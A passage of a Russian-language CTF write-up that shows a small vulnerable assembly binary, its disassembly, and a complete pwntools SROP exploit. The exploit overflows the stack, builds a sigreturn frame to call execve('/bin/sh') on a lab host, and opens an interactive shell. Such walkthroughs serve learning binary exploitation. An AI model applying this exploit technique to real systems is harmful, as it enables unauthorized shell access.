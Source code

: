  Вот как это выглядит в статье:
 ```
 from pwn import *

  context.arch = 'amd64'
  context.os = 'linux'
  
  elf = ELF.from_assembly(
      '''
          mov rdi, 0;
          mov rsi, rsp;
          sub rsi, 8;
          mov rdx, 500;
          syscall;
          ret;
          
          pop rax;
          ret;
      ''', vma=0x41000
  )
  elf.save('vuln')
  ```
 И вот как у нас:
 ```
 00041000 48 c7 c7        MOV        RDI,0x0
       00 00 00 00
 00041007 48 89 e6        MOV        RSI,RSP
 0004100a 48 83 ee 08     SUB        RSI,0x8
 0004100e 48 c7 c2        MOV        RDX,0x1f4
       f4 01 00 00
 00041015 0f 05           SYSCALL
 00041017 c3              RET
 00041018 58              POP        RAX
 00041019 c3              RET
   ```
6. Пишем эксплойт по гайду и получаем такой код:
```
from pwn import *

elf = context.binary = ELF('./task', checksec=False)
p = remote('192.168.12.13', 1555)

BINSH = elf.address + 0x1430
POP_RAX = 0x41018
SYSCALL_RET = 0x41015

frame = SigreturnFrame()
frame.rax = 0x3b  
frame.rdi = BINSH          
frame.rsi = 0x0          
frame.rdx = 0x0           
frame.rip = SYSCALL_RET

payload = b'A' * 8
payload += p64(POP_RAX)
payload += p64(0xf)
payload += p64(SYSCALL_RET)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```
7. Профит
